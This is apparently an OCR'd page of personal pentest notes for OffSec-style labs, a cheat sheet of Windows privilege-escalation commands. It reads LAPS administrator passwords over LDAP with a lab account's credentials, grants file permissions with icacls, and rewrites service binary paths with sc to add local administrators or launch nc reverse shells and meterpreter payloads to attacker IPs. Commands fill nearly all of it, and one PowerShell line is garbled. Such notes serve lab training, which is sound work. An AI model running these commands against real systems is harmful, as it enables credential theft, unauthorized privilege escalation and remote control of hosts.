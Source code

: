 ##	LAPS ENabled : For Password mining

```
##	LAPS	[Don't forget to place the domain&ip to the host file]

└─# ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://$IP "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

-------------------------------------------------------------

└─# crackmapexec ldap $IP -d hutch.offsec -u fmcsorley -p 'CrabSharkJellyfish192' -M laps --kdcHost hutch.offsec


>   Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Objee $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

##	If we can `Modify Any Service` [change-bin-path] [don't run nc.exe] 

-	[change-bin-path]
-	accesschk64.exe -uwcv Everyone *
-	Check PowerUp [check service permissions]
-	can restart the service? YES
-	accesschk64.exe -wuvc daclsvc
-	RW Everyone - SERVICE CHANGE CONFIG
-	sc qc daclsvc
-	sc config daclsvc binpath= "net localgroup administrators user /add"
-   sc start daclsvc
-------------------------------------------------------------------------------------

>	service start / stop
>	service is running as LocalSystem
>	AutoStart
>	ShutDown Prev

```
>	icalcs
-   icacls C:\BINARY_PATH_LOCATION  [CHECK the read write permission if we have]
-   icacls WService.exe /grant Everyone:F
-   icacls C:\MyPrograms\Disk.exe /grant Everyone:F
-   icacls root.txt /grant alfred:F

>	sc.exe
-   sc stop windowsscheduler
-   sc start windowsscheduler
-   sc qc apphostsvc    [details about the service]
-   sc query                      ==              all available services
-   sc query type= service
-   sc query Tlntsvr                  ==              particular service info and status
-   sc qc Tlntsvr                  ==              full particular service detail
-   sc stop Tlntsvr                  ==              stop service
-   sc start Tlntsvr                  ==              start
-   sc pause Tlntsvr
-   sc continue tlntsvr.exe
-   sc create <service> binpath= "C:\Users\user\Desktop\shell.exe"
-   sc config daclsvc binpath= "C:\Users\user\Desktop\shell.exe"
-   sc.exe config UsoSvc binPath= 'C:\programdata\nc64.exe -e cmd.exe 10.10.20.20 443'
-   `sc` config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
-   sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
-   sc config <Service_Name> binpath= "net localgroup administrators username /add"
-   sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
-   sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```